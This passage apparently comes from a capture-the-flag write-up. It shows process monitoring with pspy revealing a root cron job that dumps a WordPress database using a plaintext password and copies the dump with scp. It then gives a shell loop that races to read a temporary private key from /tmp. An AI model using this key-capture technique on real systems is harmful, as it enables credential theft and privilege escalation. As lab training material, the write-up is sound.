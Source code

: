     
    jack@mysql:~$ md5sum p
    e04a36bb5444f2275990567614e1f509  p
    
    
    
    oxdf@hacky$ md5sum pspy64
    e04a36bb5444f2275990567614e1f509  pspy64
    

Now I’ll run `pspy`. It initially shows the processes that are already
running, but there’s not much there. However, every minute it shows something
like this:

    
    
    2021/10/09 10:57:01 CMD: UID=0    PID=52954  | runc init 
    2021/10/09 10:57:01 CMD: UID=0    PID=52959  | runc init 
    2021/10/09 10:57:01 CMD: UID=0    PID=52965  | sh -c mysqldump wordpress -uroot -pOnlyTheBestSecretsGoInShellScripts > /tmp/tmp.bJUwfFuUOB/backup.txt 
    2021/10/09 10:57:01 CMD: UID=0    PID=52966  | runc init 
    2021/10/09 10:57:01 CMD: UID=0    PID=52974  | runc init 
    2021/10/09 10:57:01 CMD: UID=0    PID=52981  | runc init 
    2021/10/09 10:57:01 CMD: UID=0    PID=52987  | scp -o StrictHostKeyChecking=no -i /tmp/tmp.bJUwfFuUOB/key /tmp/tmp.bJUwfFuUOB/backup.txt jack@172.69.0.1:/home/jack/backups/1633777021.txt 
    2021/10/09 10:57:03 CMD: UID=0    PID=52988  | runc init
    

It looks like it’s dumping the database, and then copying the result using
`scp` back to 172.169.0.1, which is likely the host.

Whatever cron is doing this must be creating the temp directory in `/tmp`
(likely using `mktemp -d` based on the dir name), and then cleaning up when
it’s done.

### Capture Key

If I try to run that `cat` command when there’s nothing there, it errors, and
the return code is 1:

    
    
    jack@mysql:~$ cat /tmp/*/key
    cat: '/tmp/*/key': No such file or directory
    jack@mysql:~$ echo $?
    1
    

I’ll use a loop like this:

    
    
    while :;
        do cat /tmp/*/key 2>/dev/null;
        if [ $? -ne 1 ]; then
            break;
        fi
    done
    

It’s a “while true” loop, but if the return code from that `cat` isn’t 1, then
it breaks the loop.
